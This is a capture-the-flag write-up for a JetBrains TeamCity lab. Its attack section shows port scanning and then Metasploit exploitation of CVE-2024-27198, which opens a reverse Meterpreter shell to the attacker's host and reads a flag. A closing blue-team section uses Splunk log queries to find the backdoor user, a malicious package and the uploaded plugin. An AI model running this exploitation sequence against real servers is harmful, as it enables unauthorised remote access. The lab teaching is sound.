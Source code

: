 ![](../../../assets/images/Pasted%20image%2020251031112046.png)

---
# Method 1
### Enumeration
`Nmap`
```js
 .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.201.125.63:22
Open 10.201.125.63:80
Open 10.201.125.63:50000
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-01 11:10 UTC
Initiating Ping Scan at 11:10
Scanning 10.201.125.63 [2 ports]
Completed Ping Scan at 11:10, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:10
Completed Parallel DNS resolution of 1 host. at 11:10, 0.06s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:10
Scanning 10.201.125.63 [3 ports]
Discovered open port 22/tcp on 10.201.125.63
Discovered open port 80/tcp on 10.201.125.63
Discovered open port 50000/tcp on 10.201.125.63
Completed Connect Scan at 11:10, 0.29s elapsed (3 total ports)
Nmap scan report for 10.201.125.63
Host is up, received syn-ack (0.32s latency).
Scanned at 2025-11-01 11:10:46 UTC for 0s

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
50000/tcp open  ibm-db2 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

---
There is one login page on port `50000`

![](../../../assets/images/Pasted%20image%2020251101164357.png)

![](../../../assets/images/Pasted%20image%2020251101170127.png)

I just Noticed Version `2023.11.3` so searched it immediately and found this on rapid7

![](../../../assets/images/Pasted%20image%2020251101170143.png)

then just searched on `msfconsole` and found it :

![](../../../assets/images/Pasted%20image%2020251101183337.png)

---
### Exploitation

i used 4th module from above list : 

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> set LHOST 10.8.31.47
LHOST => 10.8.31.47
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZmR4bUVYVzdQLVdJLUo4MHVGS0hYbmdUSllz.NmE3ZGY0MzItMTk4Yi00Y2VjLWEwODgtYmFiMDE1MGNiMzQ3
[*] Uploading plugin: m7WplZt9
[*] Sending stage (58073 bytes) to 10.201.125.63
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_m7WplZt9
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/m7WplZt9
[*] Meterpreter session 1 opened (10.8.31.47:4444 -> 10.201.125.63:54264) at 2025-11-01 11:40:06 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/m7WplZt9' on the target
```

and i got shell : 

```js
msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.cUdvN1duVmp3RVJQal9aZ2IyTUVCLVExQmRF.OTVkY2U3YzEtZjgwZC00MzIwLWI5ZmUtZjFmN2ZjODZkYzdm
[*] Uploading plugin: ZPYR1Toq
[*] Sending stage (58073 bytes) to 10.201.63.63
[*] Deleting the plugin...
[*] Deleting the authentication token...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_ZPYR1Toq
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/ZPYR1Toq
[*] Meterpreter session 2 opened (10.8.31.47:4445 -> 10.201.63.63:40768) at 2025-11-01 12:59:30 +0000
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/ZPYR1Toq' on the target

(Meterpreter 2)(/opt/teamcity/TeamCity/bin) >

```

and found flag in `/home/ubuntu`

```js
(Meterpreter 2)(/home/ubuntu) > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2025-11-01 11:54:58 +0000  .BuildServer
000667/rw-rw-rwx  0     fif   2025-11-01 11:52:59 +0000  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 12:03:22 +0000  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 12:03:22 +0000  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 09:39:13 +0000  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 08:54:48 +0000  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 09:40:18 +0000  .local
100667/rw-rw-rwx  807   fil   2020-02-25 12:03:22 +0000  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 09:59:35 +0000  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 09:38:50 +0000  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 09:39:21 +0000  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 09:46:35 +0000  .wget-hsts
100666/rw-rw-rw-  38    fil   2025-11-01 13:13:38 +0000  flag.txt

(Meterpreter 2)(/home/ubuntu) > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

---
# Method 2


---

### Blue Team Part

so the first question is :

`What is the name of the backdoor user which was created on the server after exploitation?`

so i just selected all time here 

![](attachments/Pasted%20image%2020251101190153.png)

```js
source="/var/log/auth.log" index=* "new user"
```

i searched this and found this : 

![](attachments/Pasted%20image%2020251101190517.png)

---
Now the second question :
`What is the name of the malicious-looking package installed on the server?`

for package i checked `dpkg.log` using this 

```js
source="/var/log/dpkg.log" *install*
```

but i found many pkgs so i mentioned date from user that we found earlier `eviluser` 

```js
source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*
```

![](attachments/Pasted%20image%2020251101191303.png)

---
Now last question :

`What is the name of the plugin installed on the server after successful exploitation?`

so this question is about plugin of teamcity i remembered that there is one directory when i got shell first time 

![](attachments/Pasted%20image%2020251101191555.png)

and when i go one directory back i found `logs` directory 

![](attachments/Pasted%20image%2020251101191828.png)

then i tried with many files and finally using this i found it : 

```js
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"
index=* 
```

![](attachments/Pasted%20image%2020251101192651.png)

---
